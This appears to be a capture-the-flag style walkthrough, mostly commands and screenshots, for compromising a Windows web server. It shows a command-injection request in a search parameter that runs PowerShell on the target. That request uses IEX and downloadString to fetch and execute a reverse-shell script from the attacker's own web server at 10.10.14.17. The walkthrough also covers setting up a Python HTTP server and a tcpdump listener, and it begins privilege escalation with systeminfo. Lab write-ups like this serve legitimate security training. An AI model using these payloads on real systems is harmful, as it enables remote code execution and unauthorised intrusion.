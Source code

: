 ![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557122389243_image.png)

## SimpleHTTPServer setup
    python -m SimpleHTTPServer

*in directory of the .ps1 that we will upload to the sever*

## Windows 32bit / 64bit directories
    C:\Windows\System32\ # 32bit
    C:\Windows\SysWow64\ # still 32bit
    C:\Windows\SysNative\ # 64bit
## Burp exec to download ps1
Inside Burp send the following command to have the target download our newly crafted ps1 file.


    GET /?search=%00{.exec| c:\Windows\SysNative\WindowsPowershell\v.1.0\powershell.exe ping 10.10.14.17 #ctrl+u to unicode encode / ctrl+shift+u to decode

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123128792_image.png)

Listen on tcpdump

    tcpdump -i tun0

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123170507_image.png)

*confirmed connection*

Sending ps1 payload:

    GET /?search=%00{.exec| c:\Windows\SysNative\WindowsPowershell\v.1.0\powershell.exe IEX(New-ObjectNet.WebClient).downloadString('http://10.10.14.17:8000/Invoke-PowerShellTcp.ps1'),)

Url encode with ctrl+u:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123411635_image.png)

Target executes the download:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123485214_image.png)

*executed x4 times but after execution on the 1337 listener we get a response:*

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123534147_image.png)

# Priv-Esc (windows)

First step:

    systeminfo 

*gets all the info on the box to include the hotfixes*
